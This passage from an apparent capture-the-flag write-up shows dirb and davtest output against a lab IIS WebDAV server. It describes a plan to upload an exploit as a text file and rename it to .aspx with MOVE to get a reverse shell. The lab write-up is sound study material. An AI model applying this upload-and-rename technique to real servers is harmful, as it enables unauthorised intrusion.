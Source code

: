```console
└──╼ [★]$ dirb http://10.129.162.7

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Aug 16 18:14:23 2022
URL_BASE: http://10.129.162.7/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.162.7/ ----
==> DIRECTORY: http://10.129.162.7/_private/                                   
==> DIRECTORY: http://10.129.162.7/_vti_bin/                                   
+ http://10.129.162.7/_vti_bin/_vti_adm/admin.dll (CODE:200|SIZE:195)          
+ http://10.129.162.7/_vti_bin/_vti_aut/author.dll (CODE:200|SIZE:195)         
+ http://10.129.162.7/_vti_bin/shtml.dll (CODE:200|SIZE:96)                    
==> DIRECTORY: http://10.129.162.7/_vti_log/                                   
==> DIRECTORY: http://10.129.162.7/aspnet_client/                              
==> DIRECTORY: http://10.129.162.7/images/                                     
==> DIRECTORY: http://10.129.162.7/Images/                                     
                                                                               
-----------------
END_TIME: Tue Aug 16 18:14:40 2022
DOWNLOADED: 4612 - FOUND: 3
```
With the above info that gives us some information on what to do next. Metasploit can be used for an easy reverse shell with iis webdav but I decided to use a manual method to learn more.

So we are going to start with davtest to see what kind of files can be uploaded to the system. We get a few success's but for an exploit to work correctly we need to use aspx. Luckily the previous nmap scan showed that we can use MOVE. This means all we have to do is upload our exploit as a txt file and then MOVE it to an aspx file.


Note: PWNbox definitley has issues with certain things. My metasploit shell and the webpage were doing fine but when I ran davtest and cadaver I was not getting anything back. A hard reset on the instance fixed this issue... for now...
```console
└──╼ [★]$ davtest -url http://10.129.95.234
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.129.95.234
********************************************************
NOTE	Random string for this session: XQntDZ8jAKbY
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.129.95.234/DavTestDir_XQntDZ8jAKbY
********************************************************
 Sending test files
PUT	cgi	FAIL
PUT	cfm	SUCCEED:	http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.cfm
PUT	txt	SUCCEED:	http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.txt
PUT	asp	FAIL
PUT	php	SUCCEED:	http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.php
PUT	shtml	FAIL
PUT	jsp	SUCCEED:	http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.jsp
PUT	html	SUCCEED:	http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.html
PUT	jhtml	SUCCEED:	http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.jhtml
PUT	pl	SUCCEED:	http://10.129.95.234/DavTestDir_XQntDZ8jAKbY/davtest_XQntDZ8jAKbY.pl
```